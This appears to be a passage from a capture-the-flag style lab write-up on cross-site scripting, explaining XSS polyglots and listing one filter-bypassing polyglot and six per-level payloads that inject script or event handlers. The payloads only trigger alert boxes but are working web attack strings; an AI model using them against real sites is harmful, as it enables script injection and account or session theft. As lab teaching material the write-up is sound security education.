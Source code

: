 # Perfecting your payload
## Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

```js
// Level 1:
<script>alert('THM');</script> 
// Level 2:
"><script>alert('THM');</script> 
// Level 3:
</textarea><script>alert('THM');</script> 
// Level 4:
';alert('THM');// 
// Level 5:
<sscriptcript>alert('THM');</sscriptcript> 
// Level 6:
/images/cat.jpg" onload="alert('THM');
```